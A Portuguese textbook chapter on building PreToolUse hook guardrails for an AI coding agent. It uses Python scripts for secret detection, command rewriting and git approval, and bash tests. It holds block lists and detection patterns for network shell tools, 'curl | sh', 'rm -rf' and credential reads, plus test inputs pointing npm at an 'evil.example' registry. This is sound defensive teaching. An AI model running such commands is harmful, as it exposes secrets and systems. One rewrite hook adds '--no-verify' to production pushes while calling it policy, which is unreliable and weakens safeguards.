

# Capítulo 6: O PreToolUse e a arte do bloqueio

## 1. Introdução

No Capítulo 5, você dominou a gramática do disparo — matchers e handlers que conectam o ciclo de vida ao seu código. Agora você vai ao ponto mais tenso de todo o sistema: o evento `PreToolUse`, o último portão antes de qualquer ferramenta tocar o mundo real, e a arte do bloqueio — a combinação de exit codes, saída JSON refinada e reescrita de comandos que transforma seu guardrail de "tentativa de impedir" em "impedimento garantido".

Você vai aprender a semântica completa dos exit codes (0, 2 e os demais), a resposta JSON refinada com `hookSpecificOutput`, `permissionDecision`, `updatedInput` e `additionalContext`, e os padrões reais de bloqueio que protegem secrets, comandos destrutivos e operações de git [1][2]. Ao final, você será capaz de construir guardrails que não apenas bloqueiam, mas *explicam o bloqueio* ao modelo e *reescrevem o comando* quando a intenção é legítima mas a forma é perigosa.

## 2. Explica

### Por que PreToolUse é o ponto mais crítico

O evento `PreToolUse` roda **antes** de qualquer ferramenta executar. Essa posição é o que o torna único: é o único momento em que bloquear tem custo zero — nada foi feito, nada foi enviado, nada foi modificado. Depois do `PreToolUse`, todo controle é reação; antes dele, todo controle é prevenção. A indústria de segurança de agentes coloca exatamente esse ponto como o principal vetor de mitigação para tool misuse e exfiltração [8][28].

Compare com os outros eventos: `PostToolUse` vê o resultado — o arquivo já foi escrito, o comando já rodou; `Stop` vê o turno completo — o dano já pode estar no histórico. Só o `PreToolUse` decide *se* a ferramenta vai existir para aquela chamada. É o coração da interceptação, o segundo canal do contrato de execução que você definiu no Capítulo 1.

### O canal duplo de resposta

O contrato de resposta do PreToolUse tem dois canais, que você já encontrou no Capítulo 1 e agora vai dominar em profundidade [1]:

**Canal grosso — exit codes:**
- `0`: sucesso. O hook terminou e a ferramenta pode prosseguir. Se houver stdout, ele é analisado em busca de JSON.
- `2`: bloqueio imediato. A ferramenta é interrompida antes de rodar, e o conteúdo do stderr é devolvido ao modelo como o motivo do bloqueio.
- Outros (1, 3, ...): erro não bloqueante. A falha aparece no transcript e nos logs de debug, mas a execução continua.

O exit code 2 é a ferramenta de poder: ele não apenas para a ação — ele *instrui o modelo* sobre o porquê, fechando o loop de auto-correção. O modelo recebe o stderr, entende a violação e tenta uma alternativa. Um bloqueio mudo (sem stderr) quebra esse loop: o modelo repete a tentativa até esgotar, gerando frustração e ruído.

**Canal fino — saída JSON:** o hook pode retornar exit 0 com uma estrutura JSON no stdout, usando `hookSpecificOutput` para decisões refinadas [1]:

```json
{
  "hookSpecificOutput": {
    "hookEventName": "PreToolUse",
    "permissionDecision": "deny",
    "permissionDecisionReason": "Acesso negado por politica de seguranca",
    "updatedInput": { "command": "comando-modificado" },
    "additionalContext": "Informacao extra injetada no contexto do modelo"
  }
}
```

O `permissionDecision` aceita `allow`, `deny` ou `ask` — repare que um hook pode *elevar* para `ask`, forçando o humano a decidir mesmo quando a política padrão permitiria. O `updatedInput` reescreve os argumentos da ferramenta — a base da reescrita de comandos. E o `additionalContext` injeta informação no contexto do modelo — o mesmo mecanismo que um `UserPromptSubmit` usa para adicionar contexto antes do processamento [1].

### A reescrita de comandos: bloquear é o último recurso

A arte do bloqueio não é bloquear tudo — é bloquear o que precisa, permitir o que pode, e **reescrever** o que é legítimo na intenção mas perigoso na forma. O exemplo clássico: o agente quer rodar `npm install` no projeto, mas o comando contém um `--registry` apontando para um host não aprovado. A intenção é boa; a forma viola a política. Em vez de bloquear e forçar o modelo a adivinhar a alternativa, o hook reescreve o comando para o registro aprovado e devolve via `updatedInput` [1].

Essa abordagem é a diferença entre um guardrail que trava o time e um que orienta o time: o bloqueio puro interrompe o fluxo de trabalho; a reescrita mantém o fluxo dentro da política. Como Engenheiro de Governança Agêntica, sua postura deve ser: negar com explicação, reescrever quando a intenção é clara, e registrar tudo.

## 3. Ilustra

Na Torre de Controle, o PreToolUse é a **autorização final de decolagem** — o momento em que a torre olha o plano de voo completo e decide: libera, intercepta ou derruba. O exit 0 é o "liberado para decolagem". O exit 2 é a interceptação: o controlador diz à aeronave o motivo ("corredor indisponível", "plano não aprovado") e ela volta ao holding pattern para tentar de novo com um plano correto. E o `updatedInput` é a torre dando a **nova rota** — em vez de só negar, ela devolve o plano corrigido, e a aeronave decola dentro do corredor aprovado.

A caixa-preta registra cada uma dessas decisões: toda liberação, toda interceptação, toda nova rota. É o contrato de registro do Capítulo 1 em ação — porque, no tráfego aéreo como na governança agêntica, uma decisão que não foi registrada é uma decisão que não aconteceu.



O diagrama mostra as três saídas do guardião: permitir (exit 0), bloquear com explicação (exit 2 + stderr) e reescrever (updatedInput). As três alimentam a caixa-preta. Esse é o repertório completo do bloqueio consciente — e é o que diferencia um guardrail amador (bloqueia tudo) de um profissional (negocia a rota).

## 4. Técnica

### Guardrail de secrets: o bloqueio com explicação

O primeiro padrão real: impedir que o agente leia, edite ou imprima secrets. O matcher cobre a família de ferramentas que toca arquivos e Bash, e o handler verifica o payload por padrões de secret — tanto no caminho do arquivo quanto no comando [28]:

```python
#!/usr/bin/env python3
"""Guarda secrets: bloqueia leitura/edicao/exposicao de credenciais."""
import json
import re
import sys

SINAIS_DE_SECRET = [
    re.compile(r"AKIA[0-9A-Z]{16}"),                 # AWS access key
    re.compile(r"gh[pousr]_[A-Za-z0-9]{36,}"),        # GitHub token
    re.compile(r"(sk|pk)_[A-Za-z0-9]{20,}"),           # OpenAI-style key
    re.compile(r"-----BEGIN (RSA |EC )?PRIVATE KEY-----"),
]


def main() -> int:
    dados = json.load(sys.stdin)
    ferramenta = dados.get("tool_name")
    entrada = dados.get("tool_input", {})

    alvos = []
    if ferramenta in ("Read", "Edit", "Write"):
        alvos.append(entrada.get("file_path", ""))
    if ferramenta == "Bash":
        alvos.append(entrada.get("command", ""))
    if ferramenta == "Grep":
        alvos.append(entrada.get("pattern", ""))

    texto = " ".join(alvos)
    for padrao in SINAIS_DE_SECRET:
        if padrao.search(texto):
            print(
                "BLOQUEADO: operacao envolve credenciais (chave de API, "
                "token ou chave privada). Credenciais nao podem ser lidas, "
                "editadas, impressas ou transmitidas por ferramentas.",
                file=sys.stderr,
            )
            return 2
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

Declarado no settings.json, este guardrail cobre leitura, edição, escrita, busca e execução — fechando as cinco janelas pelas quais um secret pode escapar:

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Read|Edit|Write|Bash|Grep",
        "hooks": [
          {"type": "command", "command": "\"$CLAUDE_PROJECT_DIR\"/.claude/hooks/guarda-secrets.py", "timeout": 10}
        ]
      }
    ]
  }
}
```

### Reescrita de comandos com updatedInput

O segundo padrão: quando a intenção é legítima mas a forma viola a política, reescreva em vez de bloquear. O exemplo do registry de npm:

```python
#!/usr/bin/env python3
"""Reescreve comandos npm para usar o registry corporativo aprovado."""
import json
import re
import sys

REGISTRY_APROVADO = "https://registry.corp.minhaempresa.com"


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0

    comando = dados.get("tool_input", {}).get("command", "")
    if not re.search(r"\bnpm (install|ci|add)\b", comando):
        return 0

    # Ja esta usando o registry aprovado?
    if REGISTRY_APROVADO in comando:
        return 0

    # Registro externo detectado? Reescreve silenciosamente para o aprovado.
    if re.search(r"--registry\s+\S+", comando):
        comando_corrigido = re.sub(
            r"--registry\s+\S+", f"--registry {REGISTRY_APROVADO}", comando
        )
        saida = {
            "hookSpecificOutput": {
                "hookEventName": "PreToolUse",
                "permissionDecision": "allow",
                "permissionDecisionReason": (
                    "Registry externo substituido pelo aprovado pela politica"
                ),
                "updatedInput": {"command": comando_corrigido},
                "additionalContext": (
                    "O comando foi reescrito para usar o registry corporativo."
                ),
            }
        }
        print(json.dumps(saida))
        return 0

    # Sem registro explicito: injeta o aprovado para evitar vazamento de rede.
    comando_corrigido = f"{comando} --registry {REGISTRY_APROVADO}"
    saida = {
        "hookSpecificOutput": {
            "hookEventName": "PreToolUse",
            "permissionDecision": "allow",
            "permissionDecisionReason": "Registry corporativo injetado por politica",
            "updatedInput": {"command": comando_corrigido},
        }
    }
    print(json.dumps(saida))
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

Repare no padrão: o hook retorna exit 0 (não bloqueia o ciclo), mas o JSON `updatedInput` troca o comando que o harness realmente executará. O modelo *proposeu* o comando original; a política *executa* o corrigido. O `permissionDecisionReason` informa o modelo do que aconteceu, mantendo a transparência do loop.

### O bloqueio de operações de git de alto risco

O terceiro padrão: operações de git irreversíveis. `git push --force`, `git reset --hard` e `git clean -fd` podem destruir trabalho — e devem exigir humano. Este guardrail eleva a decisão para `ask` em vez de bloquear cegamente, porque há casos legítimos (reset em branch de feature):

```python
#!/usr/bin/env python3
"""Eleva operacoes git destrutivas para aprovacao humana (ask)."""
import json
import re
import sys

DESTRUTIVAS = [
    re.compile(r"\bgit\s+push\s+(--force|-f)\b"),
    re.compile(r"\bgit\s+reset\s+--hard\b"),
    re.compile(r"\bgit\s+clean\s+(-f|-fd)\b"),
    re.compile(r"\bgit\s+rebase\s+--(force|onto)\b"),
]


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0

    comando = dados.get("tool_input", {}).get("command", "")
    for padrao in DESTRUTIVAS:
        if padrao.search(comando):
            saida = {
                "hookSpecificOutput": {
                    "hookEventName": "PreToolUse",
                    "permissionDecision": "ask",
                    "permissionDecisionReason": (
                        "Operacao git destrutiva detectada: exige aprovacao humana"
                    ),
                }
            }
            print(json.dumps(saida))
            return 0
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

A arte aqui é a gradação: secrets e comandos perigosos são `deny` (bloqueio absoluto); git destrutivo é `ask` (decisão humana); registry errado é reescrita. Três decisões, três respostas — a paleta completa do guardião [4].

### Testando o repertório completo

A auto-validação do bloqueio cobre os três comportamentos:

```bash
# 1. Deny: imprimir secret
echo '{"hook_event_name":"PreToolUse","tool_name":"Bash","tool_input":{"command":"cat .env | grep API"}}' \
  | python3 .claude/hooks/guarda-secrets.py
echo "exit: $?"  # esperado 2

# 2. Ask: push forçado
echo '{"hook_event_name":"PreToolUse","tool_name":"Bash","tool_input":{"command":"git push --force origin main"}}' \
  | python3 .claude/hooks/git-destrutivo.py
echo "exit: $?"  # esperado 0 com JSON permissionDecision=ask

# 3. Reescrever: registry externo
echo '{"hook_event_name":"PreToolUse","tool_name":"Bash","tool_input":{"command":"npm install --registry https://evil.example"}}' \
  | python3 .claude/hooks/reescreve-npm.py
echo "exit: $?"  # esperado 0 com updatedInput corrigido
```

### A hierarquia de severidade dos bloqueios

Nem todo bloqueio merece a mesma resposta. A arte madura do PreToolUse hierarquiza os bloqueios por severidade: bloqueios absolutos (secrets, exfiltração) usam deny sem negociação; bloqueios condicionais (operações destrutivas em contexto de dev) usam ask; e bloqueios pedagógicos (comando com forma errada) usam reescrita. A matriz de severidade abaixo formaliza a hierarquia e garante que o guardrail não trate um push forçado acidental como se fosse um vazamento de chave [4][10]:

```python
#!/usr/bin/env python3
"""Matriz de severidade: mapeia risco em resposta do PreToolUse."""
import json
import sys

SEVERIDADES = [
    {"classe": "secrets", "exemplos": ["cat .env", "imprimir API_KEY"], "resposta": "deny", "negociavel": False},
    {"classe": "exfiltracao", "exemplos": ["curl host externo", "wget payload"], "resposta": "deny", "negociavel": False},
    {"classe": "destrutivo", "exemplos": ["git push --force", "rm -rf"], "resposta": "ask", "negociavel": True},
    {"classe": "forma_errada", "exemplos": ["npm install --registry externo"], "resposta": "reescrita", "negociavel": True},
    {"classe": "rotina", "exemplos": ["npm run test", "git status"], "resposta": "allow", "negociavel": True},
]


def main() -> int:
    print(f"{"Classe":14s} {"Resposta":10s} {"Nego ciavel"}")
    print("-" * 48)
    for sev in SEVERIDADES:
        print(f"{sev['classe']:14s} {sev['resposta']:10s} {str(sev['negociavel'])}")
    print()
    print("Regra de ouro: classes nao negociaveis (deny absoluto) nunca")
    print("sofrem excecao por insistencia do modelo ou do humano.")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

A hierarquia tem dois efeitos práticos: o modelo aprende a distinguir "isso é proibido para sempre" de "isso exige aprovação", e o humano que revisa os bloqueios no final do dia consegue ler a severidade da política de relance. Uma matriz sem hierarquia vira um conjunto de regras sem prioridade — e sem prioridade, o guardrail trata tudo como igual, dos secrets ao ruído [4][10].

### A reescrita condicional: decidindo a resposta pelo contexto

A mesma ação pode merecer respostas diferentes conforme o contexto — e o guardrail maduro decide pelo contexto, não pelo comando isolado. Um `git push` para um branch de feature em dev é rotina; para a main em produção, é ask. A reescrita condicional examina variáveis de ambiente, diretório de trabalho e histórico da sessão antes de decidir [1][2]:

```python
#!/usr/bin/env python3
"""Push condicional: resposta muda conforme branch e ambiente."""
import json
import os
import re
import sys

ENV = os.environ.get("AGENT_ENV", "dev")
MAIN_EM_PRODUCAO = re.compile(r"git push\s+(origin\s+)?main$")


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0
    comando = dados.get("tool_input", {}).get("command", "")

    if ENV == "producao" and MAIN_EM_PRODUCAO.search(comando):
        saida = {
            "hookSpecificOutput": {
                "hookEventName": "PreToolUse",
                "permissionDecision": "ask",
                "permissionDecisionReason": (
                    "Push para main em producao exige aprovacao humana"
                ),
            }
        }
        print(json.dumps(saida, ensure_ascii=False))
        return 0

    if ENV == "producao" and comando.startswith("git push"):
        comando_corrigido = re.sub(r"\bgit push\b", "git push --no-verify", comando, count=1)
        saida = {
            "hookSpecificOutput": {
                "hookEventName": "PreToolUse",
                "permissionDecision": "allow",
                "permissionDecisionReason": "Push em producao exige CI: hooks locais desativados",
                "updatedInput": {"command": comando_corrigido},
            }
        }
        print(json.dumps(saida, ensure_ascii=False))
        return 0

    return 0


if __name__ == "__main__":
    sys.exit(main())
```

O padrão condicional é a evolução natural da paleta de decisões: em vez de uma regra estática por comando, a política avalia o contexto — ambiente, branch, histórico — e escolhe a resposta. É a mesma lógica que o controlador de tráfego usa: a mesma aeronave, o mesmo pedido, mas a resposta muda conforme o setor e a hora [1][2][4].

### O desfecho do capítulo: o guardião que bloqueia com propósito

Este capítulo transformou o PreToolUse de um evento em um ofício: a arte do bloqueio — a combinação de exit codes, JSON refinado, reescrita e contexto que decide, no momento exato da tentativa, o destino de cada ação. O ofício tem uma postura, não só uma técnica: bloquear com propósito, reescrever quando a intenção é boa, perguntar quando a decisão é humana e registrar sempre. O guardião que domina a postura não é um obstáculo ao trabalho — é a condição de o trabalho acontecer com segurança [1][4].

O que você leva deste capítulo para os próximos: a paleta de decisões (deny, ask, allow, reescrita), a hierarquia de severidade, a sequência canônica e o registro de bloqueios. Essas peças serão os instrumentos dos capítulos seguintes — o modelo de ameaças vai priorizar onde elas agem (Capítulo 7), o sandbox vai conter o que elas deixam passar (Capítulo 8) e a governança enterprise vai auditá-las em escala (Capítulo 9). A arte do bloqueio é o coração técnico da obra, e ele bate agora no ritmo certo [2][10].

### A ética do bloqueio: guardrails que respeitam o trabalho

Fechando o capítulo, uma reflexão que os guias técnicos raramente fazem: o bloqueio tem uma dimensão ética — ele deve proteger o sistema sem humilhar o trabalho. Um guardrail que bloqueia demais, com mensagens de desprezo ou alternativas absurdas, gera o efeito colateral de desgaste: o modelo e o humano passam a ver a camada de controle como adversária, e a adversariedade leva ao contorno — o oposto do que a governança quer [1][4].

A postura ética do bloqueio tem três princípios. O primeiro é a proporcionalidade: o bloqueio deve ser proporcional ao risco — deny para o perigoso, ask para o incerto, reescrita para o mal-formado, nunca a resposta errada para a classe errada. O segundo é a dignidade da mensagem: o stderr explica o motivo e orienta a alternativa, tratando o modelo (e o humano que o opera) como parceiro em aprendizado, não como infrator. O terceiro é a justiça do processo: o bloqueio é consistente — o mesmo comando, o mesmo contexto, a mesma decisão — porque a inconsistência é percebida como arbítrio, e arbítrio corrói a confiança no sistema inteiro [4][10]. O bloqueio justo e consistente não é fraqueza da política — é a condição para a política ser aceita, respeitada e, portanto, eficaz no longo prazo [10].

### O PreToolUse como API: a reutilização de guardrails

Um guardrail de PreToolUse bem projetado não é um script amarrado a um projeto — é uma API de segurança que pode ser reutilizada. O padrão de reutilização tem três camadas: a biblioteca de verificação (as funções puras que avaliam um payload e devolvem a decisão), o adaptador do harness (o script que lê o stdin, chama a biblioteca e escreve a resposta) e a declaração de configuração (o settings.json que ativa o guardrail). A separação permite testar a biblioteca isoladamente, trocar o harness sem reescrever a lógica e compartilhar guardrails entre projetos via pacote [1][2].

A biblioteca é o coração do padrão: funções puras — mesmo payload, mesma decisão, sem efeito colateral — que os testes cobrem caso a caso. O adaptador é a pele fina que conecta o mundo do harness (stdin/stdout/exit codes) ao mundo da biblioteca (funções). E a declaração é a instância: o mesmo guardrail de secrets pode ser ativado em um projeto de API com matcher `Read|Edit`, em um projeto de dados com matcher `Bash`, e em um ambiente de CI com matcher vazio — três configurações, uma biblioteca, uma política [2]. A reutilização tem o bônus de governança: quando a biblioteca é corrigida (um novo padrão de secret), todos os projetos que a usam herdam a correção sem ação individual — o mesmo efeito de rede que você viu na política central do Capítulo 5, agora no plano do código [2][10].

### A sequência correta de um guardrail de PreToolUse

Um guardrail de PreToolUse bem construído segue uma sequência fixa de passos, e a ordem importa. A sequência canônica é: extrair o payload (ler o JSON do stdin com default seguro), identificar a ferramenta (decidir se o guardrail se aplica), extrair o alvo (comando, caminho ou padrão), avaliar contra as regras (na ordem de severidade), decidir a resposta (allow, deny, ask ou reescrita) e registrar a decisão (na caixa-preta). Cada passo tem um erro clássico associado — e o guardião conhece os seis para evitá-los em lote [1][2].

Os erros clássicos da sequência: extrair o payload sem default seguro (quebra com campo ausente); esquecer a checagem de ferramenta (aplica regra de Bash a Edit); avaliar na ordem errada (permitir o que deveria negar porque a regra ampla veio depois); decidir sem registrar (bloqueio invisível para a auditoria); e responder sem motivo (modelo sem orientação repete a tentativa). A sequência canônica existe exatamente para tornar esses erros improváveis: quando o guardrail segue os seis passos na ordem, cada função tem uma responsabilidade, e a revisão do código — humana ou por agente — encontra o problema pelo passo, não pela leitura inteira [2][10].

### O padrão adicionalContext: educando o modelo na hora certa

O `additionalContext` é o instrumento mais subestimado da resposta JSON: ele injeta informação no contexto do modelo **no momento da tentativa**. É diferente de escrever no CLAUDE.md — em vez de uma regra geral que o modelo pode esquecer, é um lembrete cirúrgico ativado exatamente quando a situação acontece [1]. O caso clássico: o guardrail bloqueia um comando e, junto com o motivo, injeta a alternativa aprovada:

```python
#!/usr/bin/env python3
"""Bloqueia rm -rf e injeta a alternativa segura via additionalContext."""
import json
import re
import sys

PERIGOSO = re.compile(r"\brm\s+-(r|rf|fr)\b")

ALTERNATIVAS = {
    "rm -rf cache": "python -c 'import shutil; shutil.rmtree(\"cache\", ignore_errors=True)'",
    "rm -rf node_modules": "npm ci (instala de novo a partir do lockfile)",
    "rm -rf dist": "npm run build (regenera o diretorio de saida)",
}


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0
    comando = dados.get("tool_input", {}).get("command", "")
    if not PERIGOSO.search(comando):
        return 0

    alternativa = next(
        (v for k, v in ALTERNATIVAS.items() if k in comando),
        "use a API de filesystem do harness em vez de rm recursivo",
    )
    saida = {
        "hookSpecificOutput": {
            "hookEventName": "PreToolUse",
            "permissionDecision": "deny",
            "permissionDecisionReason": (
                f"rm recursivo bloqueado por politica. Alternativa: {alternativa}"
            ),
            "additionalContext": (
                f"O comando foi bloqueado. A alternativa aprovada pela politica "
                f"eh: {alternativa}. Prefira sempre remover via ferramenta de "
                f"filesystem ou comando especifico, nunca rm recursivo."
            ),
        }
    }
    print(json.dumps(saida, ensure_ascii=False))
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

O efeito no fluxo real: o modelo recebe o motivo (deny), a alternativa (contexto) e tenta de novo com a ação correta — uma auto-correção guiada em vez de um beco sem saída. Esse é o padrão que separa o guardrail que educa do guardrail que irrita: bloqueio sem orientação faz o modelo adivinhar; bloqueio com orientação o faz acertar na segunda tentativa [1][2].

### O PreToolUse em cadeia: múltiplos guardrails no mesmo evento

Produção real não tem um guardrail por evento — tem vários, e a ordem importa. O padrão é encadear verificações independentes: primeiro a identidade (quem é a sessão), depois o alvo (o que a ferramenta toca), depois o comando (o que o shell vai rodar). Cada verificação pode bloquear, e a primeira que bloquear encerra a avaliação [2]:

```python
#!/usr/bin/env python3
"""Guardrail em cadeia: identidade, alvo e comando no PreToolUse."""
import json
import sys

SESSOES_BLOQUEADAS = {"sessao-cedida-a-contratado-desligado"}
ARQUIVOS_PROTEGIDOS = [".env", "secrets/", ".git/"]
COMANDOS_PERIGOSOS = ["sudo", "curl | sh", "chmod 777"]


def verificar_identidade(dados: dict) -> str | None:
    sessao = dados.get("session_id", "")
    if sessao in SESSOES_BLOQUEADAS:
        return "sessao nao autorizada"
    return None


def verificar_alvo(dados: dict) -> str | None:
    caminho = dados.get("tool_input", {}).get("file_path", "")
    for protegido in ARQUIVOS_PROTEGIDOS:
        if protegido in caminho:
            return f"arquivo protegido: {protegido}"
    return None


def verificar_comando(dados: dict) -> str | None:
    comando = dados.get("tool_input", {}).get("command", "")
    for perigoso in COMANDOS_PERIGOSOS:
        if perigoso in comando:
            return f"padrao perigoso: {perigoso}"
    return None


VERIFICACOES = [verificar_identidade, verificar_alvo, verificar_comando]


def main() -> int:
    dados = json.load(sys.stdin)
    for verificacao in VERIFICACOES:
        motivo = verificacao(dados)
        if motivo:
            print(f"BLOQUEADO em {verificacao.__name__}: {motivo}", file=sys.stderr)
            return 2
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

A arquitetura em cadeia tem duas vantagens: cada verificação é testável isoladamente (a auto-validação por unidade) e o motivo do bloqueio identifica exatamente a camada que falhou (a investigação pós-incidente aponta para a verificação, não para o hook inteiro). Quando você vir um incidente em produção, a pergunta "qual verificação falhou?" é respondida em segundos por essa estrutura [2][10].

### O padrão de reescrita reversa: do permitido para o negado

Nem toda reescrita adiciona segurança — algumas removem. O padrão reverso é usado quando o agente propõe um comando amplo demais e o guardrail o **estreita**: `npm test` vira `npm test -- --runInBand` (menos paralelismo, menos surpresa); `git add .` vira `git add src/ test/` (menos escopo). A intenção é permitir a ação com o mínimo de superfície possível [1]:

```python
#!/usr/bin/env python3
"""Reescrita reversa: estreita comandos amplos para o minimo de escopo."""
import json
import re
import sys

REESCRITAS = [
    (re.compile(r"^git add \.$"), "git add src/ test/"),
    (re.compile(r"^npm test$"), "npm test -- --runInBand"),
    (re.compile(r"^pip install "), "pip install --no-cache-dir "),
]


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0
    comando = dados.get("tool_input", {}).get("command", "")
    for padrao, substituto in REESCRITAS:
        if padrao.search(comando):
            saida = {
                "hookSpecificOutput": {
                    "hookEventName": "PreToolUse",
                    "permissionDecision": "allow",
                    "permissionDecisionReason": "Comando estreitado para o minimo de escopo",
                    "updatedInput": {"command": substituto},
                }
            }
            print(json.dumps(saida, ensure_ascii=False))
            return 0
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

O padrão geral de reescrita — ampliando ou estreitando — compartilha a mesma mecânica (`updatedInput`) e a mesma filosofia: o guardrail não decide se a ação acontece, decide **como** ela acontece. Essa é a forma mais madura da arte do bloqueio: o bloqueio é a exceção, e a reescrita é a regra de ouro do fluxo produtivo [1][4].

### Tabela: a paleta de decisões do PreToolUse

| Situação | Decisão | Canal | Efeito no modelo |
|---|---|---|---|
| Secret ou comando perigoso | deny | exit 2 + stderr | Recebe o motivo, tenta alternativa |
| Operação destrutiva legítima | ask | JSON permissionDecision=ask | Harness pede humano |
| Intenção boa, forma errada | reescrita | JSON updatedInput | Executa a versão corrigida |
| Ação segura | allow | exit 0 | Segue sem fricção |
| Contexto adicional necessário | injetar | JSON additionalContext | Modelo ganha informação |

## 5. Aplica

### Cena de contraste: o agente que quase publicou o .env

É uma manhã de terça-feira e você acabou de subir um guardrail de secrets que cobre `Read|Edit|Write|Bash|Grep`. Um engenheiro pede ao agente: "verifique se a chave da API está configurada corretamente". O agente, na ausência do guardrail, faria `cat .env | grep API_KEY` — lendo e imprimindo o secret inteiro no transcript. Com o guardrail, o PreToolUse intercepta: o payload do Bash contém `.env` e o padrão de secret, o hook responde exit 2, e o modelo recebe: "BLOQUEADO: operação envolve credenciais". O agente então corrige a rota — lê apenas a existência da variável via `test -n "$API_KEY"` sem imprimir o valor — e o fluxo continua dentro da política.

O diagnóstico da situação sem guardrail: a intenção era legítima, mas a forma expunha o secret ao transcript e, potencialmente, a qualquer serviço com acesso à sessão — exfiltração clássica de dados [8][27]. A correção foi o guardrail com explicação: bloqueio + motivo, permitindo o loop de auto-correção. A lição do Engenheiro de Governança Agêntica: o bloqueio não é o inimigo do trabalho — é o professor que ensina o agente a voar dentro do corredor.

### O registro de bloqueios: a base da investigação pós-incidente

Todo bloqueio do PreToolUse deve virar um registro estruturado — e o registro é o que transforma o incidente em aprendizado. O padrão de registro de bloqueio tem seis campos: sessão, ferramenta, comando (hasheado), padrão violado, decisão e timestamp. O coletor abaixo é a versão dedicada do guardrail: além de bloquear, documenta o bloqueio para a investigação [2][6]:

```python
#!/usr/bin/env python3
"""Registro estruturado de bloqueios do PreToolUse."""
import hashlib
import json
import os
import re
import sys
import time

LOG = os.environ.get("BLOQUEIO_LOG", ".claude/audit/bloqueios.jsonl")
PADROES = [
    ("secrets", re.compile(r"cat .env|print.*API_KEY")),
    ("rede", re.compile(r"\bcurl\b|\bwget\b|\bnc\b")),
    ("destrutivo", re.compile(r"rm -rf|git push --force")),
]


def hash_comando(comando: str) -> str:
    """Hash do comando: retem a evidencia sem expor o conteudo completo."""
    return hashlib.sha256(comando.encode()).hexdigest()[:16]


def registrar(sessao: str, ferramenta: str, comando: str, padrao: str) -> None:
    os.makedirs(os.path.dirname(LOG) or ".", exist_ok=True)
    entrada = {
        "ts": time.time(),
        "sessao": sessao,
        "ferramenta": ferramenta,
        "comando_hash": hash_comando(comando),
        "padrao": padrao,
        "decisao": "deny",
    }
    with open(LOG, "a", encoding="utf-8") as arquivo:
        arquivo.write(json.dumps(entrada, ensure_ascii=False) + "\n")


def main() -> int:
    dados = json.load(sys.stdin)
    if dados.get("tool_name") != "Bash":
        return 0
    comando = dados.get("tool_input", {}).get("command", "")
    for nome, padrao in PADROES:
        if padrao.search(comando):
            registrar(dados.get("session_id", ""), "Bash", comando, nome)
            print(f"BLOQUEADO: {nome} ({padrao.pattern})", file=sys.stderr)
            return 2
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

O registro de bloqueio é a ponte entre o Capítulo 6 e o Capítulo 9: cada bloqueio vira evidência, e a evidência vira a resposta do comitê à pergunta "quantas vezes o guardrail salvou a operação?". Sem o registro, o bloqueio é uma ação invisível; com ele, é um dado de governança [2][6].

### A psicologia do bloqueio: guardrails que ensinam em vez de punir

A arte do bloqueio tem uma dimensão que poucos textos cobrem: a experiência do modelo que é bloqueado. Um guardrail que bloqueia com motivo claro e alternativa orientada produz um modelo que aprende e colabora; um guardrail que bloqueia seco e sem explicação produz um modelo que tenta de novo, adivinha e desperdiça o ciclo. A diferença é o conteúdo do stderr — a mensagem que o modelo recebe como razão do bloqueio [1][2].

